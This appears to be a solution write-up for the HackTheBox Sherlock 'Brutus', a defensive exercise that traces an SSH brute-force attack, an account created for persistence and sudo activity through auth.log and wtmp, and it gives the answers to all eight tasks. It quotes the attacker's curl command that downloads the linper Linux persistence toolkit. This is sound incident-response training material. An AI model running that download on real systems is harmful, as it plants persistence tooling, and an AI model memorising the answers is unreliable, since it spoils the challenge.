 # [HackTheBox Sherlocks - Brutus](https://app.hackthebox.com/sherlocks/Brutus/play)
Created: 19/05/2024 13:42
Last Updated: 19/05/2024 14:48
* * *
![a93333357ea1b089a15b67e9f282f70f.png](/resources/a93333357ea1b089a15b67e9f282f70f.png)

**Scenario:**
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

* * *
>Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

![b1deff4f148d8d2c8ed975a95c07144f.png](/resources/b1deff4f148d8d2c8ed975a95c07144f.png)
Lets start by finding those Failed password login in a short span of time which there is only this 1 IP has this pattern which mean its an IP address of the attacker
```
65.2.161.68
```

>Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

![f38d44512534f5a6f018c9044b2d685b.png](/resources/f38d44512534f5a6f018c9044b2d685b.png)
Filtered for "Accept password" then look for first Accepted password log after those failed password log then you can see that automated tool successfully identified root's password
```
root
```

>Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Successfully logged in as root from previous task was done by automated tool so we need to go to next successfully login
![9639df656e4e2f281424d95e48181b72.png](/resources/9639df656e4e2f281424d95e48181b72.png)
We need to correlate timestamp here so lets filter our from auth.log using `cat auth.log | grep "Accept"` first then use `utmpdump wtmp | grep "root"` to print historical log of login and logout activity of root user

From the result you can see there is one there
```
2024-03-06 06:32:45
```

>Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

![239d64e9904c164aed7158fb7a797a58.png](/resources/239d64e9904c164aed7158fb7a797a58.png)
Session number can be found on auth.log after session opened then we can use `cat auth.log | grep "root"` to get all logs related to root 

You can see that there are 2 sessions were opened by root, first is automated tool that was closed instantly and the second one is what we are looking for
```
37
```

>Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

![0800c3baf323f79b8e2255b6c7bba6e5.png](/resources/0800c3baf323f79b8e2255b6c7bba6e5.png)
We need to find "useradd" log on auth.log
But to make it universal, I used`cat auth.log | grep "add"` to filter out all add event including groupadd too which you can see that the attacker added "cyberjunkie" user then added this user to "sudo" and "shadow" group
```
cyberjunkie
```

>Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?

![0e6263b2524d37baad2772f4815bfa89.png](/resources/0e6263b2524d37baad2772f4815bfa89.png)
It is [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
```
T1136.001
```

>Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

![02f1e11cd49104ec62c9733773f1766c.png](/resources/02f1e11cd49104ec62c9733773f1766c.png)
Lets go grab session opened and session closed time of session 37 from auth.log
![47cb74e12400ee434d39718e2a4521c8.png](/resources/47cb74e12400ee434d39718e2a4521c8.png)
Use time and date calculator, the different between 06:32:44 and 06:37:24 is 280 but its not the right answer so I checked out wtmp for more details if something is different
![2aa05a4a2069d6a4a6885b70f7f35c2c.png](/resources/2aa05a4a2069d6a4a6885b70f7f35c2c.png)
So it turns out that it was not logged as 06:32:44 but 06:32:45 (1 second different), then the actual different should be 279 seconds
```
279
```

>Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

![868091f31848ab9b395e198589a87f23.png](/resources/868091f31848ab9b395e198589a87f23.png)
Use `cat auth.log | grep "sudo"` to filter out for "sudo" then we can see that this newly added user used curl to download [linper](https://github.com/montysecurity/linper) (Linux Persistence Toolkit) from github
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

![3ef789dc55523add7f6523fef100bb7a.png](/resources/3ef789dc55523add7f6523fef100bb7a.png)
* * *
